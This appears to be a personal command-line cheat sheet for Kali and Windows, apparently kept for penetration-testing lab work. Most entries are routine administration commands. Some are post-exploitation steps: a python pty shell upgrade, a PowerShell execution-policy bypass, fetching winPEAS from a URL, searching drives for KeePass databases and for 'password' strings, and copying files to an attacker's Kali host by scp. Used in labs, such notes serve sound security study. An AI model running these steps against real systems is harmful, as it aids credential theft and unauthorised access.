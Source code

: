 Locate file by name:
```bash
locate <filename>
```

Find commands:
```bash
man -k <regex search term>
```

Find command location:
```bash
which <command>
```

Find and replace in file:
```bash
sed -i ‘s/<search term>/<replace term>/g’ <target filename>
```

Change Password:
```bash
passwd
```

Start SSH:
```bash
sudo systemctl start ssh
sudo ss -antlp | grep sshd
```

Start HTTP:
```bash
sudo systemctl start apache2
sudo ss -antlp | grep apache
```
```bash
python3 -m http.server 80
```

See All Available Services:
```bash
systemctl list-unit-files
```

Install Shit Locally:
```bash
sudo dpkg -i ./<path to .deb file>
```

Assign New Environment Variable:
```bash
export NEW-VARIABLE-NAME=VALUE-TO-ASSIGN-IT-TO
```

Inspect Existing Environment Variables:
```bash
env
```

View Session Command History:
```bash
history
```

Rerun Command From History:
```bash
!<line number of command as displayed in history>
```
```bash
!! to execute the last command run
```

Monitor CPU Usage:
```bash
watch -n 1 ps aux --sort=%cpu | head -n 10
```

Get PID:
```bash
ps | grep <thing you want to find>
```
eg.
```bash
ps | grep firefox
```

Find Git repos on Linux:
```bash
find / -name ".git" 2>/dev/null
```

Spawn a TTY shell:
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

Powershell or CMD:
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo Powershell
```

Powershell 64 bit machine?
```powershell
[System.Environment]::Is64BitOperatingSystem
```

Powershell bypass script execution prevention:
```powershell
powershell -ep bypass
```

Powershell Convert to Base64:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('<insert payload here>'))
```

Powershell Convert from Base64:
```powershell
[Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('<insert payload here>'))
```

Powershell download from URL:
```powershell
(New-Object System.Net.WebClient).DownloadFile("<URL>","C:\path\to\destination")
```

Alternative Powershell download from URL:
```powershell
iwr -uri http://my.url/winPEASx64.exe -Outfile winPEAS.exe
```

Powershell find Keepass file:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

Find Git repository on Windows:
```powershell
Get-ChildItem -Path C:\ -Include '.git' -Directory -Recurse -ErrorAction SilentlyContinue -Force
```

Powershell find string in files:
```powershell
Get-ChildItem -Path "C:\Users\" -Recurse -ErrorAction 'SilentlyContinue' | Select-String -Pattern "password" -ErrorAction 'SilentlyContinue' | Select LineNumber, Filename, Path
```

Powershell search in file for lines excluding keyword:
```powershell
cat NoisyLogFile.txt | Where-Object { !( $_ | Select-String "annoying string to filter" -quiet) }
```

Powershell SCP:
```powershell
scp filename.txt kali@<our IP>:/home/kali
```

RDP Connection:
```bash
xfreerdp /u:offsec /p:lab /v:192.168.123.121
```

For when the `vmmon` kernel module decides to not:
```bash
openssl req -new -x509 -newkey rsa:2048 -keyout MOK.priv -outform DER -out MOK.der -nodes -days 36500 -subj "/CN=VMware/"
```
```bash
sudo /usr/src/linux-headers-`uname -r`/scripts/sign-file sha256 ./MOK.priv ./MOK.der $(modinfo -n vmmon)
```
```bash
sudo /usr/src/linux-headers-`uname -r`/scripts/sign-file sha256 ./MOK.priv ./MOK.der $(modinfo -n vmnet)
```
```bash
sudo mokutil --import MOK.der
```
and restart.

For when clipboard between Kali and Host is fucked again for no reason:
```bash
sudo apt remove open-vm-tools
sudo apt remove open-vm-tools-desktop
sudo apt install open-vm-tools
sudo apt install open-vm-tools-desktop
```

For when we wanna close irritating dangling loopback listeners, first identify them via:
```bash
ss -ntlpu
```
This likely won't show the PID, to get that:
```bash
sudo lsof -i :<PORT_IN_QUESTION>
```
Then kill the process:
```bash
kill <PID>
```

For when stuff is just breaking for no reason over the network and it turns out its cos the MTU is still set to 1500:
```bash
sudo ifconfig tun0 mtu 1250
```